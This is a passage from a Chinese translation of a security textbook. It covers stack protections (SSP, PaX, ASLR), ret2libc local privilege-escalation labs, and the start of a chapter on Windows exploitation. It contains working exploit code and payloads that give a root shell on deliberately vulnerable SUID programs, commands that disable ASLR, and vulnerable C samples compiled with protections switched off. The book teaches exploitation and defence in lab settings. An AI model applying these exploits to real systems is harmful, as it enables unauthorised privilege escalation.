fprintf(stderr, "[**] using fake argc address: %#010x\n", addr_argc);
fprintf(stderr, "[**] using shellcode address: %#010x\n", addr_eip);
// set the address for the modified argc
shellcode[0] = (unsigned char)(addr_eip & 0x000000ff);
shellcode[1] = (unsigned char)((addr_eip & 0x0000ff00)>>8);
shellcode[2] = (unsigned char)((addr_eip & 0x00ff0000)>>16);
shellcode[3] = (unsigned char)((addr_eip & 0xff000000)>>24);

/* fill buffer with computed address */
/* alignment issues, must offset by two */
p[0]='A';
p[1]='A';
ptr = (int * )&p[2];

for (i = 2; i < SIZE; i += 4){
    *ptr++ = addr;
}
/* this is the address for exploiting with
 * gcc -mpreferred-stack-boundary=2 -o smallbuf smallbuf.c */
*ptr = addr_eip;

//call the program with execle, which takes the environment as input
execle(VULN,"smallbuf",p,NULL, env);
exit(1);
}
```


注意：前面的代码在开启和关闭栈保护的情况下都能正常工作。这是一种巧合，原因是使用这种方法覆盖指向 ArgC 的指针比使用先前的缓冲区溢出方式覆盖保存的 Ret 少花费 4 个字节。

前面的代码可以按以下方式执行：

```
# gcc -o exploit2 exploit2.c
#chmod u+s exploit2
# su joeuser //switch to a normal user (any)
$ ./exploit2
[***] using fake argc address: 0xbffffffb7
[***] using shellcode address: 0xbffffffbb

# id
uid=0(root) gid=1000 (joeuser) groups=1000 (joeuser)
```

SSP 已集成到 GCC 中（从 4.1 版本开始），并且默认启用。可以使用 -fno-stack-protector 标志禁用它，也可以使用 -fstack-protector-all 强制启用。

你可以使用 objdump 工具来检查 SSP 的使用情况：

```
# gcc -fstack-protector-all test.c -o test
# objdump -d test | grep -i stack
000004b0 <__stack_chk_fail@plt>:
728: e8 83 00 00 00 call 7b0 <__stack_chk_fail_local>
000007b0 <__stack_chk_fail_local>:
7bf: e8 ec fc ff ff call 4b0 <__stack_chk_fail@plt>
```


注意：正如名称所暗示的，本节描述的工具对基于堆的攻击不提供任何保护。

## 基于 GCC 的非可执行栈

GCC 已使用 GNU_STACK ELF 标记实现了非可执行栈。此功能默认启用（从 4.1 版本开始），可以使用 -z execstack 标志禁用，如下所示：

```
# gcc -o test test.c && readelf -l test | grep -i stack GNU_STACK 0x0000000
0x00000000 0x00000000 0x00000000 0x000000 RW 0x10
# gcc -z execstack -o test test.c \
&& readelf -l test | grep -i stack
GNU_STACK 0x00000000 0x000000000 0x000000000 0x000000 0x00000 RWE 0x10
```

请注意，在第一个命令中，ELF 标记中设置了 RW 标志，而在第二个命令（带有 -z execstack 标志）中，ELF 标记中设置了 RWE 标志。这些标志分别代表读取 (R)、写入 (W) 和执行 (E)。

在本实验中，我们探讨了如何确定是否启用了栈保护，以及如何绕过它们。使用虚假帧，我们可以通过控制应用程序返回的位置来使我们的 shellcode 执行。

## 内核补丁和脚本

虽然许多保护方案是通过内核级补丁和脚本引入的，但本节将只介绍其中几种。

## 非可执行内存页（栈和堆）

早期，开发者就意识到程序栈和堆不应该是可执行的，并且用户代码一旦放入内存就不应该是可写的。多种实现都曾试图实现这些目标。

Page-eXec (PaX) 补丁试图通过改变内存分页的方式来提供对内存栈和堆区域的执行控制。通常，存在一个页表项（PTE）用于跟踪内存页以及称为数据和指令转换后备缓冲区（TLB）的缓存机制。TLB 存储最近访问的内存页，并在访问内存时首先由处理器检查。如果 TLB 缓存中不包含请求的内存页（缓存未命中），则使用 PTE 来查找和访问内存页。PaX 补丁为 TLB 缓存实现了一组状态表，并维护内存页是处于读/写模式还是执行模式。当内存页从读/写模式转换为执行模式时，补丁会介入，记录日志然后终止发出该请求的进程。PaX 有两种方法来实现非可执行页。SEGMEXEC 方法更快且更可靠，但为了完成其任务将用户空间分为两半。在需要时，PaX 使用回退方法 PAGEEXEC，它较慢但也非常可靠。

Red Hat Enterprise Server 和 Fedora 提供了非可执行内存页的 ExecShield 实现。虽然非常有效，但已发现它在某些情况下存在漏洞，并允许数据被执行。

## 地址空间布局随机化（ASLR）

ASLR 的目的是随机化以下内存对象：

- 可执行映像
- Brk()-管理的堆
- 库映像
- Mmap()-管理的堆
- 用户空间栈
- 内核空间栈

PaX 除了提供非可执行内存页之外，还完全实现了上述 ASLR 目标。grsecurity（一组内核级补丁和脚本）包含了 PaX，并已合并到许多版本的 Linux 中。Red Hat 和 Fedora 使用位置独立可执行文件（PIE）技术来实现 ASLR。与 PaX 相比，这种技术提供的随机化较少，尽管两者保护相同的内存区域。实现 ASLR 的系统通过随机化 libc 函数指针的调用方式，为“返回到 libc”攻击提供了高级别的保护。这是通过随机化 mmap() 命令来完成的，使得查找 system() 和其他函数的指针几乎不可能。然而，使用暴力技术来查找 system() 等函数调用是可能的。

在基于 Debian 和 Ubuntu 的系统上，可以使用以下命令禁用 ASLR：

```
# echo 0 > /proc/sys/kernel/randomize_va_space
```

在基于 Red Hat 的系统上，可以使用以下命令禁用 ASLR：

```
# echo 1 > /proc/sys/kernel/exec-shield
# echo 1 > /proc/sys/kernel/exec-shield-randomize
```


## Lab 12-5: 返回到 libc 攻击

“返回到 libc”是一种开发出来的技术，用于绕过非可执行栈内存保护方案，例如 PaX 和 ExecShield。基本上，该技术使用受控的 EIP 将执行返回到现有的 glibc 函数，而不是 shellcode。请记住，glibc 是所有程序使用的无处不在的 C 函数库。该库具有 system() 和 exit() 等函数，两者都是有价值的目标。特别感兴趣的是 system() 函数，它用于在系统上运行程序。你需要做的就是 *篡改*（塑造或更改）栈，以诱骗 system() 函数调用你选择的程序（例如 /bin/sh）。

要进行正确的 system() 函数调用，我们需要栈如下所示：

| 溢出 | 溢出 | system() 的地址 | 填充 | "/bin/sh" 的地址 | | |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 栈顶 较低内存 | | system() 后的返回地址 | | 栈底 较高内存 | | |

我们将溢出易受攻击的缓冲区，并使用 glibc system() 函数的地址精确覆盖旧的保存 EIP。当我们易受攻击的 main() 函数返回时，程序将返回到 system() 函数，因为该值会从栈中弹出到 EIP 寄存器并执行。此时，将进入 system() 函数并调用 system() 序言，它将在位置“Filler”上方构建另一个栈帧，从所有实际目的来看，这将成为我们新的保存 EIP（在 system() 函数返回后执行）。现在，如你所料，system() 函数的参数位于新保存 EIP 正下方（图中标记为“Filler”）。因为 system() 函数期望一个参数（指向要执行的文件名字符串的指针），我们将在该位置提供字符串 "/bin/sh" 的指针。在此情况下，我们实际上不在乎 system 函数执行后返回到哪里。如果我们在乎，我们需要确保将 Filler 替换为有意义的函数指针，例如 exit()。


NOTE 栈随机化使这类攻击非常困难（尽管并非不可能）。基本上，需要使用暴力破解来猜测涉及的地址，这大大降低了成功的几率。事实证明，随机化因系统而异，并非真正的随机。

让我们看一个示例。首先关闭栈随机化：

```
# echo 0 > /proc/sys/kernel/randomize_va_space
```

查看以下易受攻击的程序：

```
# cat vuln2.c
#include <string.h>
/* small buf vuln prog */
int main(int argc, char * argv[]) {
char buffer[7];
strcpy(buffer, argv[1]);
return 0;
}
```

如你所见，由于 strcpy 命令将 argv[1] 复制到小缓冲区中，此程序易受攻击。编译易受攻击的程序，将其设置为 SUID，然后返回到普通用户帐户：

```
# gcc -mpreferred-stack-boundary=2 -ggdb -o vuln2 vuln2.c
# chmod u+s vuln2
# ls -l vuln2
-rwsr-xr-x 1 root root 8019 Dec 19 19:40 vuln2*
# su joeuser
$
```

现在我们准备好构建“返回到 libc”攻击并将其输入到 vuln2 程序中。要继续，我们需要以下项目：

- glibc system() 函数的地址
- 字符串 "/bin/sh" 的地址

事实证明，system() 和 exit() 等函数会被 gcc 编译器自动链接到二进制文件中。要观察此事实，请以安静模式用 gdb 启动程序。在 main() 上设置断点，然后运行程序。当程序在断点处停止时，打印名为 system() 的 glibc 函数的位置：

```
$ gdb -q vuln2
Reading symbols from /root/book/vuln2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x5af
(gdb) r
Starting program: /root/book/vuln2

Breakpoint 1, 0x800005af in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e37b30 <__libc_system>
(gdb) q
The program is running. Exit anyway? (y or n) y
$
```

获取二进制文件中函数和字符串位置的另一种酷方法是使用自定义程序搜索二进制文件，如下所示：

```
$ cat search.c


/* Simple search routine, based on Solar Designer's lpr exploit. */
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <signal.h>
#include <setjmp.h>
#include <string.h>

int step;
jmp_buf env;

void fault() {
    if (step<0)
        longjmp(env,1);
else {
    printf("Can't find /bin/sh in libc, use env instead...\n");
    exit(1);
}
}

int main(int argc, char **argv) {
    void *handle;
    int *sysaddr, *exitaddr;
    long shell;
    char exam[512];
    char *args[3];
    char *envs[1];
    long *lp;

    ① handle=dlopen(NULL,RTLD_LOCAL);

    *(void **)(&sysaddr)=dlsym(handle,"system");
    sysaddr+=4096; // using pointer math 4096*4=16384=0x4000=base address
    printf("system() found at %08x\n",sysaddr);

    *(void **)(&exitaddr)=dlsym(handle,"exit");
    exitaddr+=4096; // using pointer math 4096*4=16384=0x4000=base address
    printf("exit() found at %08x\n",exitaddr);

    // Now search for /bin/sh using Solar Designer's approach
    if (setjmp(env))
        step=1;
    else
        step=-1;
    shell=(int)sysaddr;
    signal(SIGSEGV,fault);
    do
        ② while (memcmp((void *)shell, "/bin/sh", 8)) shell+=step;
    //check for null byte
    ③while (!(shell & 0xff) || !(shell & 0xff00) || !(shell & 0xff0000)
        || !(shell & 0xff000000));
    printf("\"/bin/sh\" found at %08x\n", shell+16384); // 16384=0x4000=base addr
}
```

前面的程序使用 dlopen() 和 dlsym() 函数 ① 来处理二进制文件中定位的对象和符号。一旦定位到 system() 函数，内存就会向两个方向 ② 进行搜索，查找 "/bin/sh" 字符串的存在。"/bin/sh" 字符串可以嵌入在 glibc 中，在此情况下使攻击者不必依赖访问环境变量来完成攻击。最后，检查该值 ③ 以查看是否包含 NULL 字节，然后打印位置。你可以自定义前面的程序来查找其他对象和字符串。让我们编译前面的程序并试运行它：

```
$ gcc -o search -ldl search.c
$ ./search
system() found at b7e36b30
exit() found at b7e2a7e0
"/bin/sh" found at b7f58d28
```

快速检查前面的 gdb 值显示 system() 函数的位置不完全相同。让我们使用 gdb 来找出我们攻击的正确值：

```
$ gdb -q ./vuln2
Reading symbols from ./vuln2...done.
(gdb) b main
Breakpoint 1 at 0x5b1: file vuln2.c, line 5.
(gdb) r
Starting program: /root/ch12/vuln2

Breakpoint 1, main (argc=1, argv=0xbffff764) at vuln2.c:5
5     strcpy(buffer, argv[1]);
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e37b30 <__libc_system>
④(gdb) p/x 0xb7e37b30 - 0xb7e36b30
$2 = 0x1000
(gdb) x/x (0xb7e2a7e0 + 0x1000)
0xb7e2b7e0 <__GI_exit>: 0x0f2264e8
(gdb) x/s (0xb7f58d28 + 0x1000)
0xb7f59d28: "/bin/sh"
```

如你所见，我们为 system 找到的值 ④ 比 search 找到的值偏移了 0x1000。当我们查看其他值并添加为 system 计算的偏移量时，可以看到 exit 和 "/bin/sh" 位于新计算的位置。这些值位于略有不同的位置的原因是链接器组装二进制文件的方式。当我们使用 ldd 查看不同共享对象附加到每个文件的位置时，可以看到 libc 附加的位置在两个二进制文件中不同，因此导致了这个 0x1000 的差异：

```
$ ldd search
    linux-gate.so.1 (0xb7ffe000)
    libdl.so.2 => /lib/i386-linux-gnu/libdl.so.2 (0xb7fd1000)
    ⑤libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e1a000)
    /lib/ld-linux.so.2 (0x80000000)
$ ldd vuln2
    ⑥libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e1f000)
    /lib/ld-linux.so.2 (0x80000000)
```

我们可以使用 ldd 看到两个二进制文件之间 libc ⑤、⑥ 的地址不同。通过 gdb 和一些数学计算，我们现在拥有使用“返回到 libc”攻击成功攻击易受攻击程序所需的一切。将所有内容结合起来，我们可以看到：


$ ./vuln2 `perl -e 'print "A"x15 . "\x30\x7b\xe3\xb7\xBBBB\x28\x9d\xf5\xb7"'`
# id
uid=1000(joeuser) gid=1000(joeuser) euid=0(root) groups=1000(joeuser)
# exit
Segmentation fault

请注意，我们得到了一个EUID为root的shell，并且在退出shell时，我们得到了段错误。为什么会这样？当我们离开用户级shell时，程序崩溃了，因为我们提供的填充数据(0x42424242)变成了system()函数执行后要执行的保存EIP。因此，当程序结束时，崩溃是预期的行为。为了避免该崩溃，我们可以简单地在该填充位置提供exit()函数的指针：

```
$ ./vuln2 `perl -e 'print "A"x15 . "\x30\x7b\xe3\xb7\xe0\xb7\xe2\xb7\x28\x9d\xf5\xb7"'`
# id
uid=1000(joeuser) gid=1000(joeuser) euid=0(root) groups=1000(joeuser)
# exit
```

恭喜，我们现在拥有一个有效用户ID(EUID)为root的shell。

使用“返回到libc”(ret2libc)，我们有能力将应用程序流程重定向到二进制文件的其他部分。通过向堆栈加载返回路径和函数选项，当我们覆盖EIP时，可以将应用程序流程重定向到应用程序的其他部分。因为我们已向堆栈加载有效的返回位置和数据位置，应用程序不会知道它已被重定向，从而允许我们利用这些技术来启动我们的shell。

## Lab 12-6: 使用ret2libc维持特权

在某些情况下，我们可能最终没有root特权。这是因为某些系统上system和bash的默认行为是在启动时丢弃特权。Kali中安装的bash不会这样做；但是，在Red Hat等系统上，它会这样做。

对于本实验，我们将使用Kali Rolling。为了绕过特权丢弃，我们需要使用一个包含system函数调用的包装程序。然后，我们可以使用不丢弃特权的execl()函数来调用包装程序。包装程序如下所示：

```
# cat wrapper.c
int main(){
        setuid(0);
        setgid(0);
        system("/bin/sh");
}
```

```
# gcc -o wrapper wrapper.c
```

请注意，我们不需要包装程序是SUID的。

接下来，我们将使用execl()函数调用包装程序，如下所示：

```
execl("./wrapper", "./wrapper", NULL)
```

我们现在还有另一个问题需要解决：execl()函数将NULL值作为最后一个参数。我们稍后将处理这个问题。首先，让我们使用一个简单的测试程序来测试execl()函数调用，并确保它在以root身份运行时不会丢弃特权：

```
# cat test_execl.c
int main(){
    execl("./wrapper", "./wrapper", 0 );
}
```

像易受攻击的程序vuln2.c一样编译并设置SUID：

```
# gcc -o test_execl test_execl.c
# chown root.root test_execl
# chmod u+s test_execl
# ls -l test_execl
-rwsr-xr-x 1 root root 7460 Jul  3 02:24 test_execl

# su joeuser
$
```

运行它以测试功能：

```
$ ./test_execl
# id
uid=0(root) gid=0(root) groups=0(root),1000(joeuser)
# exit
```

太好了，我们现在有保持root特权的方法了。现在我们只需要一种在堆栈上生成NULL字节的方法。有几种方法可以做到这一点；但是，为了说明目的，我们将使用printf()函数作为execl()函数的包装器。回顾一下，%hn格式标记可以用于写入内存位置。为了实现这一点，我们需要链接多个libc函数调用，如下图所示：



就像我们之前做的那样，我们将用glibc printf()函数的地址覆盖旧的保存EIP。此时，当原始易受攻击的函数返回时，这个新的保存EIP将从堆栈中弹出，并且printf()将以%6$n开头的参数执行，这将把格式字符串中直到格式标记(0x0000)的字节数写入第三个直接参数。因为第三个参数包含其自身位置，所以值0x00000将被写入该位置。接下来，从第一个./wrapper字符串开始调用execl()函数，并使用相应的参数。瞧，我们使用这个自修改缓冲区攻击字符串即时创建了所需的execl()函数。

为了构建前面的漏洞利用，我们需要以下信息：

- printf()函数的地址
- execl()函数的地址
- 内存中%6$n字符串的地址（我们将使用环境部分）
- 内存中./wrapper字符串的地址（我们将使用环境部分）
- 我们想用NULL值覆盖的位置的地址

从顶部开始，让我们获取地址：

```
$ gdb -q vuln2
Reading symbols from vuln2...done.
(gdb) b main
Breakpoint 1 at 0x5b1: file vuln2.c, line 5.
(gdb) r
Starting program: /root/ch12/vuln2

Breakpoint 1, main (argc=1, argv=0xbffff764) at vuln2.c:5
5           strcpy(buffer, argv[1]);
(gdb) p printf
$1 = {<text variable, no debug info>} 0xb7e46930 <__printf>
(gdb) p execl
$2 = {<text variable, no debug info>} 0xb7eae750 <__GI_execl>
(gdb) q
A debugging session is active.

Inferior 1 [process 14355] will be killed.

Quit anyway? (y or n) y
```

我们将使用内存的环境部分来存储我们的字符串，并使用方便的getenv实用程序检索它们的位置。请记住，getenv程序需要与易受攻击的程序大小相同——在此例中，vuln2（五个字符）：

```
$ cp getenv gtenv
```

好了，我们准备好将字符串放入内存并检索它们的位置：

```
$ export FMTS="%6\$n"  #escape the $ with a backslash
$ echo $FMTS
%6$n
$ ./getenv FMTSTR
FMTSTR is located at 0xbfffff16
```

```
$ export WRAPPER="./wrapper"
$ echo $WRAPPER
./wrapper
$ ./getenv WRAPPER
WRAPPER is located at 0xbfffff23
```

我们拥有除缓冲区最后一个内存插槽位置以外的所有内容。为了确定此值，首先我们找到易受攻击缓冲区的大小。使用这个简单的程序，我们只有一个内部缓冲区，当处于易受攻击的函数main()内部时，它将位于堆栈顶部。在现实世界中，需要通过查看反汇编并进行一些试错来进行更多研究，以找到易受攻击缓冲区的位置。

```
$ gdb -q vuln2
Reading symbols from vuln2...done.
(gdb) b main
Breakpoint 1 at 0x5b1: file vuln2.c, line 5.
(gdb) r
Starting program: /root/ch12/vuln2

Breakpoint 1, main (argc=1, argv=0xbffff754) at vuln2.c:5
5           strcpy(buffer, argv[1]);
(gdb) disas main
Dump of assembler code for function main:
0x800005a0 <+0>:    push   %ebp
0x800005a1 <+1>:    mov    %esp,%ebp
0x800005a3 <+3>:    push   %ebx
0x800005a4 <+4>:    sub    $0x8,%esp
<truncated for brevity>
```

现在我们知道了易受攻击缓冲区的大小(8)，我们可以通过添加8 + 6 * 4 = 32 = 0x20来计算第六个内存地址的位置。因为我们将在该最后位置放置4字节，所以攻击缓冲区的总大小为36字节。

接下来，我们将一个代表性大小(52字节)的缓冲区发送到我们的易受攻击程序中，并通过打印$esp的值使用gdb查找易受攻击缓冲区起始位置：

```
(gdb) r `perl -e 'print "A"x52`' 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/ch12/vuln2 `perl -e 'print "A"x52`'
Breakpoint 1, main (argc=2, argv=0xbffffff714) at vuln2.c:5
5         strcpy(buffer, argv[1]);
(gdb) p $esp
$1 = (void *) 0xbffffff66c
```

现在我们有了缓冲区起始位置，添加之前计算的偏移量以获取正确的目标位置（溢出缓冲区后的第六个内存插槽）：

```
0xbffffff66c + 0x20 = 0xbffffff68c
```

最后，我们拥有了所有需要的数据，所以发起攻击！

```
./vuln2 `perl -e 'print "A"x15 . "\x30\x69\xe4\xb7\x50\xe7\xea\xb7\x16\xff\
\xff\xbf\x23\xff\xff\xbf\x23\xff\xff\
\xbf\x8c\xef\x6\xff\xbf"'`
# id
uid=0(root) gid=0(root) groups=0(root),1000(joeuser)
# exit
```

太棒了！它成功了。您可能已经意识到这里存在一个捷径。如果您查看最后一幅插图，您会注意到攻击字符串的最后一个值是NULL。偶尔，您会遇到这种情况。在这种情况下，您不关心是否将NULL字节传递到易受攻击的程序，因为字符串无论如何都会以NULL终止。因此，在这个预设场景中，您可以删除printf()函数，而直接输入execl()攻击字符串，如下所示：

```
./vuln2 [filler of 28 bytes] [&execl] [&exit] [./wrapper] [./wrapper]
```

试一下：

```
$ ./vuln2 `perl -e 'print "A"x15 . "\x50\xe7\xea\xb7\xe0\xb7\xe2\xb7\x23\xff\
\xff\xbf\x23\xff\xff\xbf"'`
# id
uid=0(root) gid=0(root) groups=0(root),1000(joeuser)
# exit
```

在这种情况下，两种方法都有效。您并不总是这么幸运，所以您需要了解这两种方法。请参阅“进一步阅读”部分，了解更多创造性的返回到libc的方法。

当正在丢弃特权时，我们可以利用其他函数调用来规避正在丢弃特权的调用。在此例中，我们利用了printf的内存覆盖能力来null终止execl的选项。通过使用ret2libc链接这些函数调用，我们不必担心在堆栈上放置可执行代码，并且可以使用我们推入堆栈的函数的复杂选项。

## 总结


我们已经讨论了一些用于内存保护的更常见技术，但它们相比如何？在我们回顾的技术中，ASLR（PaX 和 PIE）和非可执行内存（PaX 和 ExecShield）为栈和堆都提供了保护。

StackGuard、StackShield、SSP 和 Libsafe 仅针对基于栈的攻击提供保护。

下表显示了这些方法之间的差异：

| 内存保护方案 | 基于栈的攻击 | 基于堆的攻击 |
|---|---|---|
| 未使用保护 | 易受攻击 | 易受攻击 |
| StackGuard/StackShield, SSP | 受保护 | 易受攻击 |
| PaX/ExecShield | 受保护 | 受保护 |
| Libsafe | 受保护 | 易受攻击 |
| ASLR (PaX/PIE) | 受保护 | 受保护 |

## 摘要

在本章中，我们调查了字符串格式漏洞以及如何利用这些漏洞来暴露数据并影响应用程序流程。通过请求格式字符串中的附加数据，我们可以暴露泄露变量内容和栈信息的内存位置。

此外，我们可以使用格式字符串来更改内存位置。使用一些基本数学，我们可以更改内存中的值以改变应用程序流程，或者通过向栈添加参数并更改 EIP 值来影响程序执行。这些技术可能导致任意代码执行，从而允许本地权限提升或网络服务的远程执行。

我们还研究了堆栈保护和布局随机化等内存保护技术，然后探讨了绕过它们的一些基本方法。我们利用 ret2libc 攻击来控制程序执行。通过利用 libc 函数，我们能够将应用程序流程重定向到已知函数位置，并携带我们已推送到栈上的参数。这使得函数可以在不在栈上执行代码的情况下运行，并避免猜测内存位置。

结合这些技术，我们现在拥有更好的工具包来处理现实世界中的系统，并有能力利用这些复杂攻击进行更复杂的漏洞利用。保护技术会发生变化，战胜它们的策略也会演变，因此为了更好地理解这些技术，“进一步阅读”部分为您提供了可以审阅的附加材料。

## 进一步阅读

- “高级返回到lib(c)漏洞利用（PaX案例研究）”
- (nergal) www.phrack.com/issues.html?issue=58&id=4#article
- *利用软件：如何破解代码*（Greg Hoglund 和 Gary McGraw 著）Addison-Wesley，2004
- "绕过非可执行栈（及修复）"(Solar Designer) http://seclists.org/bugtraq/1997/Aug/63
- *黑客攻防：利用艺术*（Jon Erickson 著）No Starch Press，2003
- Shaun2k2's libc exploits www.exploit-db.com/exploits/13197/
- *Shellcoder手册：发现和利用安全漏洞*（Jack Koziol 等人著）Wiley，2004
- "当代码出错时——格式字符串漏洞利用"
- (DangerDuo) www.hackinthebox.org/modules.php?op=modload&name=News&file=article&sid=7949&mode=thread&order=0&thold=0

## 参考文献

- 1. Christophe Blaess、Christophe Grenier 和 Frédéric Raynal，“安全编程，第4部分：格式字符串”，2001年2月16日，www.cgsecurity.org/Articles/SecProg/Art4/。
- 2. Wikipedia，“Printf格式字符串”，https://en.wikipedia.org/wiki/Printf_format_string。
- 3. Crispin Cowan、Calton Pu、Dave Maier、Heather Hinton、Jonathan Walpole、Peat Bakke、Steve Beattie、Aaron Grier、Perry Wagle 和 Qian Zhang，“StackGuard：自适应缓冲区溢出攻击的自动检测与预防”，最初发表于第7届USENIX安全研讨会论文集，圣安东尼奥，德克萨斯州，1998年1月26-29日，www.usenix.net/legacy/publications/library/proceedings/sec98/full_papers/cowan/cow

## 第13章

## Windows 漏洞利用

如图 13-1 所示，Microsoft Windows 是目前使用最广泛的操作系统，无论是专业用途还是个人用途均是如此。此图中显示的百分比经常变化；然而，它提供了总体操作系统市场份额的良好概念。Windows 7 仍占据主导地位，市场份额接近 50%，而 Windows 10 快速增长。就一般漏洞利用和 0-day 漏洞利用搜寻而言，你应该针对哪些 Windows 操作系统应该相对清晰。与 Windows 10 相比，Windows 7 通常是一个更容易攻击的目标，因为某些安全功能和漏洞缓解措施在 Windows 7 上不可用，例如控制流防护（CFG）。本章和第14章稍后将介绍最显著的功能和缓解措施示例。



图 13-1 总体操作系统市场份额^1

在本章中，我们将讨论以下主题：

- 编译和调试 Windows 程序
- 编写 Windows 漏洞利用
- 理解结构化异常处理（SEH）
- 理解和绕过基本漏洞缓解措施，例如 SafeSEH 和 SEH 覆盖保护（SEHOP）

## 编译和调试 Windows 程序

Windows 不包含开发工具，但幸运的是，Windows 社区版允许您出于教育等目的编译程序。（如果您已经有授权副本，太好了——欢迎在本章中使用。）您可以免费下载与 Microsoft 附带于 Visual Studio 2017 Community Edition 的同一编译器。在本节中，我们将向您展示如何设置基本的 Windows 漏洞利用工作站。

## 实验 13-1：在 Windows 上编译

Microsoft C/C++ 优化编译器和链接器可从 https://www.visualstudio.com/vs/visual-studio-express/ 免费获得。本实验可以使用 Windows 7、8 或 10 的 32 位或 64 位版本。下载并运行上述链接中的安装程序。出现提示时，选择“使用 C++ 的桌面开发”选项，并取消选择所有其他选项，以下除外：

- VC++ 2017 v141 工具集（x86,x64）
- 适用于桌面 C++ x86 和 x64 的 Windows 10 SDK (10.0.15063.0)

您也可以接受所有可选默认值；但是，请记住，每个选项都会占用硬盘上的额外空间。特定的 SDK 版本号可能因下载时间而异。下载并进行简单安装后，您应该在开始菜单中拥有 Visual Studio 2017 Community 版本的链接。单击 Windows 开始按钮并输入 prompt。这将弹出一个显示各种命令提示符快捷方式的窗口。双击标题为“适用于 VS 2017 的开发者命令提示符”的项。这是一个特殊的命令提示符，其环境已设置为用于编译代码。如果您无法通过开始菜单找到它，请尝试从 C: 盘根目录搜索“开发者命令提示符”。它通常位于 C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Visual Studio 2017\Visual Studio Tools。打开开发者命令提示符后，导航到您的 C:\grayhat 文件夹。为了测试命令提示符，让我们从 hello.c 和 meet.c 程序开始。使用 Notepad.exe 等文本编辑器，键入以下示例代码，并将其保存为位于 C:\grayhat 文件夹中的名为 hello.c 的文件：

```
C:\grayhat>type hello.c
//hello.c
#include <stdio.h>
main ()
{
    printf("Hello haxor");
}
```

Windows 编译器是 cl.exe。将源文件名传递给编译器会生成 hello.exe，如下所示：

```
c:\grayhat>cl.exe hello.c
Microsoft (R) C/C++ Optimizing Compiler Version 19.11.25507.1 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

hello.c
```

```
Microsoft (R) Incremental Linker Version 14.11.25507.1
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:hello.exe
hello.obj

c:\grayhat>hello.exe
Hello haxor
```

很简单，对吧？让我们继续构建下一个程序 meet.exe。使用以下代码创建 meet.c 源代码文件，并在 Windows 系统上使用 cl.exe 编译它：

```
C:\grayhat>type meet.c
//meet.c
#include <stdio.h>
greeting(char *temp1, char *temp2) {
    char name[400];
    strcpy(name, temp2);
    printf("Hello %s %s\n", temp1, name);
}
main(int argc, char *argv[]){
    greeting(argv[1], argv[2]);
    printf("Bye %s %s\n", argv[1], argv[2]);
}
```

```
c:\grayhat>cl.exe meet.c
Microsoft (R) C/C++ Optimizing Compiler Version 19.11.25507.1 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

meet.c
Microsoft (R) Incremental Linker Version 14.11.25507.1
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:meet.exe
meet.obj
```

```
c:\grayhat>meet.exe Mr. Haxor
Hello Mr. Haxor
Bye Mr. Haxor
```

## Windows 编译器选项

如果您键入 cl.exe /?，将获得编译器选项的巨大列表。但是，目前大多数选项对我们来说不感兴趣。下表列出并描述了您在本章中将使用的标志。


| Option | Description |
| :--- | :--- |
| /Zi | 生成额外的调试信息，在使用 Windows 调试器时很有用（本章后面将演示）。 |
| /Fe | 与 `gcc` 的 `-o` 选项类似。Windows 编译器默认将可执行文件命名为与源文件相同的名称，但附加 `.exe` 扩展名。如果要为可执行文件指定不同的名称，请指定该标志，后跟您想要的 `.exe` 名称。 |
| /GS[-] | 从 Microsoft Visual Studio 2005 开始，`/GS` 标志默认启用，并提供栈金丝雀保护。要出于测试目的禁用它，请使用 `/GS-` 标志。 |

由于我们接下来将使用调试器，因此让我们构建带有完整调试信息的 meet.exe 并禁用栈金丝雀功能：


注意 /GS 开关启用了 Microsoft 的栈金丝雀保护实现，这种实现对防止缓冲区溢出攻击非常有效。要了解该功能可用之前软件中存在的漏洞，我们将使用 `/GS-` 标志禁用它。

```
c:\grayhat>cl.exe /Zi /GS- meet.c
Microsoft (R) C/C++ Optimizing Compiler Version 19.11.25507.1 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

meet.c
Microsoft (R) Incremental Linker Version 14.11.25507.1
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:meet.exe
/debug
meet.obj

c:\grayhat>meet.exe Mr. Haxor
Hello Mr. Haxor
Bye Mr. Haxor
```

太好了，现在你已经有了带调试信息的可执行文件，是时候安装调试器，并看看 Windows 上的调试与 Unix 调试体验有何不同了。

